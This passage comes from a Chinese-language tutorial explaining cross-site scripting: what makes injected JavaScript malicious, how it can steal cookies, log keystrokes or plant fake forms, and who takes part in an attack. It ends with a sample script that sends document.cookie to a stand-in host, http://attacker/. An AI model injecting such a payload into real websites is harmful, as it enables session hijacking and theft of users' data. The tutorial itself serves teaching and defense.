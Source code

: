 当用户的浏览器加载该页面时，浏览器会执行被包含在 `<script>` 标签中的代码，此时攻击者就已经成功完成了攻击。

## 什么是恶意的 Javascript 代码 ？

首先，能够在受害者浏览器中执行的 JavaScript 并不全都是恶意代码。毕竟，JavaScript 在非常受限制的环境中运行，该环境对用户的文件和操作系统具有极其有限的访问权限。你可以现在就打开浏览器的 JavaScript 执行环境执行任意你想执行的 JavaScript 代码, 你是不会对你的计算机造成任何损坏的。

然而，如果你发现 JavaScript 代码具有以下行为时，那很有可能它就是恶意代码：

- JavaScript 代码需要去访问用户的隐私数据，例如 `cookie`。
- JavaScript 代码可以使用 `XMLHttpRequest` 或其他方法发送 http 请求给未知的服务器。
- JavaScript 使用 DOM API 对当前页面 HTML 造成了非预期的修改。

这些事实加在一起可能会导致非常严重的安全漏洞，我们会在在下文中进行详细解释。

## 恶意代码导致的严重后果

攻击者可以通过注入恶意代码执行以下几种类型的攻击：

- `盗取 cookie 信息`： 攻击者可以通过 `document.cookie` 获取用户的 cookie 信息，然后将它们发送到自己的服务器上，从而获取其中的隐私数据，例如 `session ID` 等等。
- `记录用户键盘按键信息`： 攻击者还可以通过 `addEventListener` 注册键盘事件，然后发送用户的按键序列到自己的服务器中，按键序列中可能会记录敏感信息，例如密码和信用卡号。
- `假冒用户发送请求`： 攻击者可以通过 DOM API 插入假冒的登录表单在用户访问的页面中，设置表单的 `action` 属性为自己的服务器，然后就可以记录用户提交的隐私数据。

尽管这些攻击有很大地不同，但是它们都具有一个至关重要的相似性：由于攻击者已将代码注入到网站的页面中，因此恶意 JavaScript 是在该网站的上下文中执行的。这意味着它被视为该网站上的"正常"脚本：它可以访问该网站的受害者数据（例如 cookie），URL 栏中显示的主机名将是该网站的主机名。该脚本被认为是网站的合法部分，因此可以执行实际网站可以执行的任何操作。

这个事实突出了一个关键问题：

> 如果攻击者可以使用你的网站在另一个用户的浏览器中执行任意 JavaScript，那么你的网站及其用户的安全性已经受到了严重损害。

为了强调这一点，本教程中的一些例子中省略了恶意脚本的具体代码，只保留了 `<script>...</script>`，这是因为不论被注入的代码执行了哪种行为，只要网站中存在攻击者注入的代码，就会对用户造成损害。请你们牢记这一点！

# 第二章：XSS 攻击演示

## XSS 攻击中的角色

在我们描述 XSS 攻击的细节之前，我们首先说说参与到 XSS 攻击中的各个角色。通常来说，XSS 攻击中有三个角色：**网站**、**受害者**和**攻击者**。

- **网站**提供了用户访问的页面，在我们的例子中，网站地址是：http://website/。
  - **网站的数据库**用来存储将要在页面上展示的「用户输入」的数据。
- **受害者**是一个普通的互联网用户，该用户使用自己的浏览器访问网站提供的页面。
- **攻击者**是一个恶意的互联网用户, 该用户利用网站的 XSS 漏洞对普通用户发起攻击。
  - **攻击者的服务器**是被攻击者控制的 web 服务器,其唯一目的是窃取受害者的敏感信息。在我们的示例中，它位于 http://attacker/。

## 攻击场景展示

在本例中，我们假设攻击者的目的就是为了通过网站的 XSS 漏洞来获取用户的隐私数据。在受害者的浏览器解析了如下的 DOM 结构后，攻击者的目的就达到了。

```html
<script>
  window.location = 'http://attacker/?cookie=' + document.cookie
</script>
```
